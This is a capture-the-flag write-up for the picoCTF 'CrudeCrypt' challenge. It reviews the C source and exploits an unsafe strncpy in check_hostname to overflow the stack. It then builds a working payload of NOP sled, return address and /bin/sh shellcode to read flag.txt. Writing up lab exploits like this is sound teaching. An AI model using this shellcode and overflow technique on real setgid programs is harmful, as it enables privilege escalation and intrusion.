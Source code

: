 **Name**: CrudeCrypt  
**Points**: 180  
**Type**: Binary Exploitation  
**Challenge**:  
Without proper maintainers, development of [Truecrypt](http://truecrypt.sourceforge.net/) has stopped! CrudeCrypt has emerged as a notable alternative in the open source community. The author has promised it is 'secure' but we know better than that. Take a look at the [code](https://picoctf.com/problem-static/binary/CrudeCrypt/crude_crypt.c) and read the contents of `flag.txt` from the server! The problem is at /home/crudecrypt/crude_crypt on the shell server.  
**Hint**:  
You can never trust user input!  
**Files**: crude_crypt.c

*****
# Code review

What main does:
- check if there are 3 arguments
- check if 1st argument is "encrypt" or "decrypt", and assign action function pointer
- if encrypt, setegid()
- open 2nd and 3rd argument as files
- read out file_password from stdin (max 128 bytes; possibly not null terminated)
- digest = MD5(password)
- call action(infile, outfile, digest)
- cleanup + exit

What decrypt_file does:
- get file size of infile (using fstats)
- calloc buffer of that size
- copy contents of infile to buffer
- try decrypt_buffer (this function works correctly)
    if fail, return
- create file_header based on decrypted data; we can put whatever we want in the header!
- check if magic number is correct
    if not, return
- (print error message if hostname doesn't match)
- write_size = MIN(header->file_size, infile size - header size); possible signed/unsigned bug!
- write decrypted data to outfile

What check_hostname does:
- unsafe strncpy from header->host to buffer of size 32
- call safe_gethostname
- return after calling strcmp

*****
# Exploitation

The bug we are going to exploit is in the function check_hostname. The strncpy is used unsafely, because it is being told to copy the contents from src to dest (for the length of **src**). A safe usage would copy the contents from src to dest (for the length of **dest**)! Using strncpy in this way is the same as using strcpy, which is unsafe if src is provided by the user. By copying a src string that is larger than dest, we can cause a stack overflow which we can use to overwrite eip.

We can exploit this, because after the decryption of the infile, the header is created based on the decrypted data without any checks. This means we control whatever is in the header struct. This includes host, which is usally a 32-byte, null-terminated string. By removing the null bytes at the end, we can increase the length of the host string to cause the stack overflow.

In order to verify if this bug works, we will try to encrypt a file full of "a"s, but right before the call to encrypt the data, we will tamper with the header. This will result in an encrypted file that will result in a SEGFAULT when decrypted. I will use password "a", but it doesn't really matter.

Let's try it:
```bash
$ cp -r /home/crudecrypt/ /tmp/delilled
$ cd /tmp/delilled/crudecrypt
$ python -c 'print "a"*100' > a_file
$ #<use gdb to read a_file, overwrite any null characters in host, and store the result in enc_file>
$ ulimit -c unlimited
$ ./crude_crypt decrypt enc_file dec_file
-> File password: a
Segmentation fault (core dumped)
$ gdb -q crude_crypt core 
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x61616161 in ?? ()
```

Ok, so we know we have control of eip and the stack. After checking that the stack is executable ($ readelf crude_crypt -a | grep GNU_STACK), which it is, we will place nop slide + shellcode in our input and overwrite eip with the address of the middle of the nop slide.

Using gdb, we can determine that the hots variable is located at 0xffffd5c0 and the return address is located at 0xffffd60c. If we provide a reasonable nop sled (32 bytes), this should bring the address of the middle of the nop sled to 0xffffd64c. It doesn't really matter what we use to fill the host variable before encryption, as long as there are no string terminators (I will be using "a"s).

The structure of the exploit data will be:  
(sled address)\*8 + (\x90)\*128 + shellcode

SHELLCODE:
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80

```bash
$ python -c 'print "\x4c\xd6\xff\xff"*8 + "\x90"*128 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"' > exploit_data
$ <use gdb to read exploit_data, overwrite any null characters in host, and store the result in exp_file>
$ cd /home/crude_crypt
$ ./crude_crypt decrypt /tmp/delilled/crudecrypt/exp_file /tmp/delilled/crudecrypt/dec_file
-> File password: a
$ cat flag.txt
writing_software_is_hard
```

Note: If you're having trouble with landing on the nop sled, you can push it around using the arguments. Since the 3rd argument (outfile) doesn't matter, as long as it can be opened, you could try playing with this. Alternatively, you could create a bigger nop sled.

*****

REFERENCES:
http://codewiki.wikidot.com/c:struct-stat
http://linux.die.net/man/2/fstat
http://mcrypt.hellug.gr/lib/mcrypt.3.html
